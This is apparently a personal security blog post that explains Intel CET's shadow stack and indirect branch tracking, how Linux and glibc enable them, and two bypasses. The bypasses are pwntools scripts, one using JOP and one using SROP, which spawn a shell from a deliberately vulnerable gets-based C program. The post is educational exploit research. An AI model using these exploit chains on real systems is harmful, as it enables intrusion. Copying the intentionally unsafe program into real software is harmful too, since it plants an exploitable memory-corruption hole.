




Out of control
Posted on 22-4-2025
In today's age of binary exploitation, most exploits tend to make use of Return Oriented Programming to bypass No Execute (NX). That might come to an end soon with the introduction of Intel CET which prevents such ROP and even JOP attacks. This blog goes into what Intel CET is, how it functions and how one could possibly bypass it to still achieve arbitrary code execution.
Intel CET
Intel CET (Control-flow Enforcement Technology) is a hardware feature present in Intel processors starting with Tigerlake which prevents attacks using ROP or JOP. AMD processors too have an equivalent which is present starting with the Zen 3 architecture.
Intel CET provides two mechanisms
-> Shadow stack: This prevents ROP attacks where a chain of return gadgets are placed on the stack to achieve code execution
-> Indirect branch tracking (IBT): This prevents JOP attacks where a chain of jump or call gadgets are used to achieve code execution
Shadow Stack
The shadow stack is another separate stack for the running program. Unlike the ordinary stack, it only keeps track of return addresses.
|
 |
|
|---|
When a return occurs, the address is popped off the normal stack and the shadow stack and then compared. If the addresses match, the return is executed as usual. If the addresses don't match then the processor raises the Control Protection exception (#CP).
|
|
|
|---|

Each shadow stack also has a special token associated with it. This token is required for loading and restoring the shadow stack. If the token on the shadow stack does not match with the one that is being used to restore the shadow stack then the #CP exception will be raised.
The token is a 64 bit value and it's layout is as shown below
Shadow Token layout
The token is generated on RSTORSSP when the shadow stack is preserved and the SAVEPREVSSP pops off the token.
Shadow stack restore and save
The shadow stack is set up when a new thread is started.
Indirect branch tracking
IBT works by checking if the address to which the jump or call is made has the instruction ENDBR64 for long mode and ENDBR32 for protected mode.
If the specific instruction is not found then the #CP exception is raised else the CPU continues execution as normal.
IBT is not enforced if the jump or call is made with the notrack prefix.
|
|
|
|---|

Operating System side
I will look into Linux for this blog. Windows has supported CET for a longer while. I will look into Windows some other time.
Enabling and management
CET is enabled using the setup_cet function in arch/x86/kernel/cpu/common.c
setup_cet
The kernel enables shadow stacks for user mode and IBT for kernel mode.
It does this by writing into the MSR_IA32_[S/U]_CET respectively.
IA32_CET MSR register
For user mode the shadow stacks are enabled upon request by the process.
This is done since some libraries or programs may not support shadow stacks and might pull off things like retpolines which can cause CET to trigger.
The shstk_setup function in arch/x86/kernel/shstk.c sets up the shadow stack for user mode.
Shadow stack setup
Surprisingly IBT is not enabled for user mode. I am guessing it is for programs that have not been updated to support IBT. Code that is generated by older compilers do not insert the ENDBR instructions. Enabling it would break older programs. I am guessing that is the reason why it is not enabled.
Finally the kernel enables CET by setting the 23rd bit of the CR4 register.
CR4 register
The Shadow Stack Pointer and settings for user CET are stored in the XSAVE area. So the CET context is just managed like any other FPU context.
cet_user_state structure
XSAVE context
Handling
The exception vector for CET generated faults is 21.
Exception vector table
Linux defines a handler and based on whether the exception is generated from user mode or kernel mode, handles it appropriately.

Control Protection exception handler
Interestingly it only checks for Shadow Stack for user mode and IBT for kernel mode generated exceptions.
Userspace #CP exception handler
When the fault occurs it delivers a SIGSEGV signal to the userspace program.
Userspace
I will be looking at Glibc here since most Linux distributions use it.
First on startup it checks whether the CPU supports IBT and Shadow Stack.
It is also possible to forcefully enable and disable CET through the GLIBC_TUNABLES environment variable.
Checking for CET support
Getting the CET features supported
If CET is enabled then it gets the features supported and enables it while it is setting up the Thread Local Storage (TLS).
CET being enabled when the TLS is setup
It makes the arch_prctl syscall to ask the kernel to enable shadow stacks for the running thread.
Macro that calls arch_prctl to enable CET
A new shadow stack is allocated using the map_shadow_stack syscall when a new thread is created.
Shadow stack allocation function
When a new thread is started the shadow stack is setup in __start_context
Thread startup code
The thread and its signal handlers make use of the same shadow stack. When a signal occurs the process context is pushed on the stack and the shadow stack token is pushed on the shadow stack.
Bypassing CET
As of now I could think of two ways in which CET can be bypassed.
-> Using Jump Oriented Programming (JOP) since IBT is not enabled for userspace processes
-> Using Sigreturn Oriented Programming (SROP)
For testing I will be exploiting this simple C program
#include <stdio.h>
#include <stdint.h>
#include <stddef.h>
#include <stdlib.h>
typedef void (*func_ptr_t)(uint64_t arg);
char *gets(char *str);
int main(void) {
char buffer[512] = {0};
func_ptr_t func = (func_ptr_t)puts;
system("echo Hello there! What is your name?"); // So glibc would forcefully link in system as well
gets(buffer);
puts("Nice to meet you ");
func((uint64_t)buffer);
putchar('\n');
return 0;
}
I compiled using the following command gcc fun.c -o fun -fno-stack-protector -fcf-protection=return,branch -static
The system I am running this on is Ultramarine Linux 41 running kernel version 6.13.10-200.fc41.x86_64. The CPU used by the system is 11th Gen Intel(R) Core(TM) i7-1165G7 @ 2.80GHz.
Note: I am aware that I can simply overwrite the function pointer to call system directly. The below two exploits are done only for demonstrating CET bypasses.
Method 1 Jump Oriented Programming
Since IBT is not enabled for userspace programs, it is possible to still achieve code execution using Jump Oriented Programming. Now this is lame since we are not bypassing CET here but since IBT is not enabled we can make use of this.
Some useful functions begin with the endbr64 instruction which can be utilised for JOP.
endbr instruction at the start of main
We can see the compiler has generated code with the endbr64 instruction added at the start of every function.

endbr instruction at the start of putchar
I setup a simple JOP chain using this interesting gadget.

JOP gadget
from pwn import *
elf = context.binary = ELF("./fun")
p = process()
payload = p64(0x404ee0)
payload += p64(0x47c725)
payload += b"A" * (512 - (8 * 2))
payload += p64(0x401960)
p.sendline(payload)
p.interactive()
When the function pointer is called, its return address is pushed on to the stack. The gadget pops it into the rbx register. The pointer to system is then popped in rax and a pointer to /bin/sh is popped into rdi.
Finally rax is called which makes this the equivalent of system("/bin/sh") giving us a shell.
JOP Exploit flow
JOP Exploit flow
Method 2 Sigreturn Oriented Programming
Sigreturn Oriented Programming leverages the use of the sigreturn syscall.
Unlike ROP where the CPU returns to the address placed on the stack, a context frame on the stack is loaded by the kernel and that becomes the new context for the CPU.
This allows for much more control over the CPU.
Since the sigreturn context is not protected by CET it is possible to load our own context and then execute whatever code we want.
IBT is not enforced on signal handler entries which means it is possible to simply jump to __restore_rt which makes the sigreturn syscall.
from pwn import *
elf = context.binary = ELF("./fun")
p = process()
context.arch = "amd64"
frame = SigreturnFrame()
frame.rax = 0x3b
frame.rip = 0x43bf97
frame.rdi = 0x47c725
frame.rsi = 0x0
frame.rdx = 0x0
payload = bytes(frame)[8:]
payload += b"A" * (512 - len(bytes(frame)) + 8)
payload += b"B" * 8
payload += p64(0x43bf90)
p.sendline(payload)
p.interactive()
Since the return address is pushed, we would have to skip the first register entry in the sigreturn frame. Thankfully it is a register that does not interfere with the final syscall we make to launch the shell.
SROP Exploit flow

SROP Exploit flow
Conclusion
The introduction of Intel CET is a step forward in preventing binary exploitation attacks. While it does not eliminate such attacks completely it does make such attacks harder. My ideas for bypassing CET are not the only ones, there are more sophisticated ways to bypass CET such as using Counterfeit Object Oriented Programming and possibly more to come in the future. It is for sure that binary exploitation attacks will not be completely eradicated but with the rising popularity of memory safe languages like Rust and processor features like CET, it will become very rare in the future.